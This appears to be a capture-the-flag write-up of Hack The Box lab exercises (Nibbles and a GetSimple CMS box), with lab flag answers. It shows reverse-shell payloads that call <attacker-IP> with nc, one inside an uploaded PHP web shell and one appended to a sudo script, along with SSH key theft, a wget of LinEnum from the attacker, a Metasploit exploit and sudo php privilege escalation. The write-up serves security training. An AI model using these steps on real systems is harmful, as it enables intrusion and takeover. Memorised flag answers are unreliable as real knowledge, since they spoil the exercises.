> **Flag / Answer**: `HTB{pr1v1l363_35c4l4710n_2_r007}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in user2 – lets run system wide search for any rogue ssh private keys
that might be lurking our there:
```bash
find / -type f -name id_rsa 2>/dev/null
```


There is a result in the root directory, maybe we can open it:
```bash
cat /root/.ssh/id_rsa
```


We can. Lets use that to ssh login to root.

Lets copy the key's content, and paste it in a file called 'id_rsa' in our pwnbox.
It can be done with either nano editor (or vim), or with:
```bash
echo '<key-content>' > id_rsa
```


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


*_Figure 12.3 — Lab execution and output verification (Page 12)_*


*_Figure 12.4 — Lab execution and output verification (Page 12)_*


### (only owner can read it)

either way once the key is ready in the pwnbox, lets set its permission to 600
(only owner can read it):
```bash
chmod 600 id_rsa
```

when the permission is set – lets ssh login to root with the private key:
```bash
ssh -i id_rsa root@<target-IP> -p <target-port>
```


*
*

As we can see in the screenshot – we immediately get the flag with the root
shell.


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


### Nibbles - Enumeration

> **Lab Question (Page 14)**: Run an nmap script scan on the target. What is the Apache version running on the server? (answer format: X.X.XX)
>
> **Flag / Answer**: `2.4.18`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will run nmap scan on the target:
```bash
nmap <target-IP> -sV
```


We can see that there is Apache web-server version 2.4.18 running on port 80


*_Figure 14.1 — Lab execution and output verification (Page 14)_*


### Nibbles - Initial Foothold

> **Lab Question (Page 15)**: Gain a foothold on the target and submit the user.txt flag
>
> **Flag / Answer**: `79c03865431abf47b90ef24b9695e148`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets go in the browser to that apache-based website:
`http://<target-IP>`


'Hello world!' , cute enough. Lets check the source code:


Line 16 – '/nibbleblog/' – if they say there is nothing interesting there… well it
is interesting. Lets investigate further:


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


### one for example

This looks like some blog, lets check those categories on the right, the 'Music'
one for example:

Nothing on the content seems interesting (the same applies for the rest of the
categories), but on the path we see send parameters to
'/nibbleblog/index.php'.
Lets use gobuster to enumerate that sub-path further:

We will use the same wordlist 'common.txt' , which already establish is located
in '/usr/share/seclists/Discovery/Web-Content/common.txt' , within the
pwnbox:
```bash
gobuster dir -u http://<target-IP>/nibbleblog -w
/usr/share/seclists/Discovery/Web-Content/common.txt
```


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


There are several interesting looking pages. Lets start with the '/README':
`http://<target-IP>/nibbleblog/README`


The Nibbleblog version is 4.0.3


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


*_Figure 17.2 — Lab execution and output verification (Page 17)_*


*_Figure 17.3 — Lab execution and output verification (Page 17)_*


### There is also the '/nibbleblog/admin.php' path

There is also the '/nibbleblog/admin.php' path:
`http://<target-IP>/nibbleblog/admin.php`


We need credentials, this time there aren't any in the source code.

Lets move on to the '/content' found in the scan:
`http://<target-IP>/nibbleblog/content`


Lets see the 'private/' folder:


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


*_Figure 18.3 — Lab execution and output verification (Page 18)_*


### And to users.xml

And to users.xml:

The username we are looking for is 'admin'. But we still need the password.
Next, we go to the config.xml file in the '/private' directory:


There are some keywords from the file which could be attempted as password,
eventually – 'nibbles' does the job – 'admin:nibbles':


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


*_Figure 19.2 — Lab execution and output verification (Page 19)_*


*_Figure 19.3 — Lab execution and output verification (Page 19)_*


### Anyway lets login

*before we login, lets take a quick look in '/private/plugins/my_image/':

There are 2 files there – 'db.xml' and 'image.php'.

Anyway lets login:

Here is the admin panel. Lets go to Plugins:

Plugins can be abused to upload web shell
Further down there is 'My Image' plugin:


*_Figure 20.1 — Lab execution and output verification (Page 20)_*


*_Figure 20.2 — Lab execution and output verification (Page 20)_*


*_Figure 20.3 — Lab execution and output verification (Page 20)_*


### server… so lets prepare our 'image' to be uploaded

→

We can upload an image, or something that will be processed as image by the
server… so lets prepare our 'image' to be uploaded:
```bash
echo '<?php system ("rm /tmp/f;mkfifo /tmp/f;cat
/tmp/f|/bin/sh -i 2>&1|nc <attacker-IP> 4444 >/tmp/f"); ?>'
> image.php
```
the file name is 'image.php'  - same name as the 'image.php' found in
'/plugins/my_image/' (apparently it doesn't works with new files):

Then on the page, we hit 'browse' and select our recent made 'image.php' (of
course in real environment there would be defenses on the image uploads, but
it is 'testing environment'):


*_Figure 21.1 — Lab execution and output verification (Page 21)_*


*_Figure 21.2 — Lab execution and output verification (Page 21)_*


*_Figure 21.3 — Lab execution and output verification (Page 21)_*


### 4444

And save.
Before we 'trigger' the reverse shell – lets open netcat listener first, on port
4444:
```bash
nc -lnvp 4444
```


Now, lets trigger the shell by browsing (or curl) to the reverse shell page in
`http://<target-IP>/nibbleblog/content/private/plugins/my_image/image.php`


And we have a shell!
Lets make a quick search of this user.txt flag:
```bash
find / -type f -name user.txt 2>/dev/null
```


*_Figure 22.1 — Lab execution and output verification (Page 22)_*


*_Figure 22.2 — Lab execution and output verification (Page 22)_*


*_Figure 22.3 — Lab execution and output verification (Page 22)_*


### And obtain it

> **Lab Question (Page 23)**: Escalate privileges and submit the root.txt flag.
>
> **Flag / Answer**: `de5e5d6619862a8aa5b9b212314e0cdd`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first – lets set python 'tty' on our established shell:
For that we will first confirm python3 is indeed installed on the system:
which python3


And once it confirmed it is installed – lets set the superior tty:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


Lets change our directory to '/home/nibbler' and investigate:
```bash
cd /home/nibbler
```
ls


*_Figure 23.1 — Lab execution and output verification (Page 23)_*


*_Figure 23.2 — Lab execution and output verification (Page 23)_*


*_Figure 23.3 — Lab execution and output verification (Page 23)_*


*_Figure 23.4 — Lab execution and output verification (Page 23)_*


### mmm.. personal.zip. lets extract

mmm.. personal.zip. lets extract:
```bash
cd /home/nibbler
```
ls


There is this 'personal/stuff/monitor .sh'
Lets see what's in it:
```bash
cat personal/stuff/monitor.sh
```

now the script itself is quite long, not all of it will be shown here, however
looking at parts of it:

It seems to run some system stuff.


*_Figure 24.1 — Lab execution and output verification (Page 24)_*


*_Figure 24.2 — Lab execution and output verification (Page 24)_*


*_Figure 24.3 — Lab execution and output verification (Page 24)_*


### and download the file to the target machine

Maybe we can use this to gain privilege escalation. 'LinEnum.sh' can help us
determine that.
We will download to the pwnbox, set temporary python server on the pwnbox:
```bash
python -m http.server 8080
```

and download the file to the target machine:
```bash
wget http://<attacker-IP>:8080/LinEnum.sh
```


The file is sucsessfully downloaded. Lets grant it execution permissions and run
it:
```bash
chmod u+x LinEnum.sh
```
./LinEnum.sh


*_Figure 25.1 — Lab execution and output verification (Page 25)_*


*_Figure 25.2 — Lab execution and output verification (Page 25)_*


### Somewhere within the output we will find this

Somewhere within the output we will find this:

It means we can run the 'monitor .sh' with sudo permissions. Lets see if we can
write to it:
```bash
ls -l personal/stuff/monitor.sh
```


We do.

Lets modify the file to get us reverse shell to port 4445:
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc
`<attacker-IP>` 4445 >/tmp/f' >> personal/stuff/monitor.sh
```
*remember – '>>' is append to file. *


*_Figure 26.1 — Lab execution and output verification (Page 26)_*


*_Figure 26.2 — Lab execution and output verification (Page 26)_*


*_Figure 26.3 — Lab execution and output verification (Page 26)_*


### Now lets sudo run the monitor .sh

Lets set a second netcat listener on the pwnbox, on port 4445:
```bash
nc -lnvp 4445
```


Now lets sudo run the monitor .sh:
```bash
sudo ./personal/stuff/monitor.sh
```


We have a root shell! (which can be inferred from the '#').
Lets go to the root directory, and get the flag:


*_Figure 27.1 — Lab execution and output verification (Page 27)_*


*_Figure 27.2 — Lab execution and output verification (Page 27)_*


*_Figure 27.3 — Lab execution and output verification (Page 27)_*


### Knowledge Check

> **Lab Question (Page 28)**: Spawn the target, gain a foothold and submit the contents of the user.txt flag.
>
> **Flag / Answer**: `7002d65b149b0a4d19132a66feed21d8`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets begin with nmap the target machine using nmap, on all ports:
```bash
nmap <target-IP> -p-
```


Lets investigate the website further:
```bash
nmap <target-IP> -p 80 -sV
```


it runs on Apache, version 2.4.41.


*_Figure 28.1 — Lab execution and output verification (Page 28)_*


*_Figure 28.2 — Lab execution and output verification (Page 28)_*


### 'common.txt' wordlist used throughout the module

now that we know that – lets enter the webstie see what we are dealing with:
`http://<target-IP>`


The website is using the CMS (content management service) 'GetSimple' .
Maybe when we get our hands on its version, it might contain some exploit.

Lets process by investigating hidden pages with gobuster, we will use the usual
'common.txt' wordlist used throughout the module:
```bash
gobuster dir -u http://<target-IP> -w
/usr/share/seclists/Discovery/Web-Content/common.txt
```


*
*


*_Figure 29.1 — Lab execution and output verification (Page 29)_*


*_Figure 29.2 — Lab execution and output verification (Page 29)_*


### Lets go to the '/data' path

There are several interesting looking websites, the first one is the '/admin':
`http://<target-IP>/admin`


We are in need of credentials.
Lets go to the '/data' path:
`http://<target-IP>/data`


*_Figure 30.1 — Lab execution and output verification (Page 30)_*


*_Figure 30.2 — Lab execution and output verification (Page 30)_*


*_Figure 30.3 — Lab execution and output verification (Page 30)_*


### And to 'users' directory

And to 'users' directory:

Lets open the 'admin.xml' file:

We have here a username 'admin' and hashed password. Lets attempt to
decrypt the hash, for that we will first have to determine the hash type. It can
be done in the 'hash-analyzer' website:


*_Figure 31.1 — Lab execution and output verification (Page 31)_*


*_Figure 31.2 — Lab execution and output verification (Page 31)_*


*_Figure 31.3 — Lab execution and output verification (Page 31)_*


### we are in, lets to go 'Support'

the hash is most likely 'SHA1' . We can decrypt it in this website:

The password is admin.
Lets enter the admin page using the credentials 'admin:admin':

we are in, lets to go 'Support':


*_Figure 32.1 — Lab execution and output verification (Page 32)_*


*_Figure 32.2 — Lab execution and output verification (Page 32)_*


*_Figure 32.3 — Lab execution and output verification (Page 32)_*


### the exploit

We can observe that the CMS 'GetSimple' version is 3.3.15. lets google search
the exploit:

The first result is this exploit

This is a Metasploit module.
Lets open up Metasploit:
```bash
msfconsole
```
and search for 'GetSimpleCMS'
search GetSimpleCMS


*_Figure 33.1 — Lab execution and output verification (Page 33)_*


*_Figure 33.2 — Lab execution and output verification (Page 33)_*


*_Figure 33.3 — Lab execution and output verification (Page 33)_*


### We choose the latter

We choose the latter:
```bash
use 1
```


Lets run 'options' to see what we need:
options


What we need is to set the RHOSTS (remote host) to the target IP , and change
the LHOST to our attacking IP (ports are already configured, no need to change
them, at least not in this case):
```bash
set RHOSTS <target-IP>
set LHOST <attacker-IP>
```


*_Figure 34.1 — Lab execution and output verification (Page 34)_*


*_Figure 34.2 — Lab execution and output verification (Page 34)_*


*_Figure 34.3 — Lab execution and output verification (Page 34)_*


*_Figure 34.4 — Lab execution and output verification (Page 34)_*


### directory

And when everything is ready, we hit 'exploit' to run the exploit on the target:
```bash
exploit
```


The exploit worked. A shell is opened to the target machine.
lets see what user is on the machine by looking at the '/home' directory:
```bash
ls /home
```


It seems there is a user called 'mrb3n' . lets confirm the flag is in his homs
directory:
```bash
ls /home/mrb3n/user.txt
```


Flag existence confirmed, and its available for read. Lets get it:
```bash
cat /home/mrb3n/user.txt
```


*_Figure 35.1 — Lab execution and output verification (Page 35)_*


*_Figure 35.2 — Lab execution and output verification (Page 35)_*


*_Figure 35.3 — Lab execution and output verification (Page 35)_*


*_Figure 35.4 — Lab execution and output verification (Page 35)_*


### We would like to improve it into proper 'tty' shell

> **Lab Question (Page 36)**: After obtaining a foothold on the target, escalate privileges to root and submit the contents of the root.txt flag.
>
> **Flag / Answer**: `f1fba6e9f71efb2630e6e34da6387842`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we got our obtained Meterpreter Linux shell from the exploit,
however it is very restricted with many commands in-functional.
We would like to improve it into proper 'tty' shell:
shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


Now that we have it, lets run
```bash
sudo -l
```
to see what we can do as sudo:

We can execute /usr/bin/php as sudo - basically it means we can run php
commands as sudo. We can use that to obtain root shell, we will obtain it using
the command:
```bash
sudo -u root /usr/bin/php -r 'system("/bin/bash");'
```
to login to root

We have a root shell (denoted by '#'), lets confirm the 'root.txt' existence in the
root directory:
```bash
ls /root/root.txt
```


*_Figure 36.1 — Lab execution and output verification (Page 36)_*


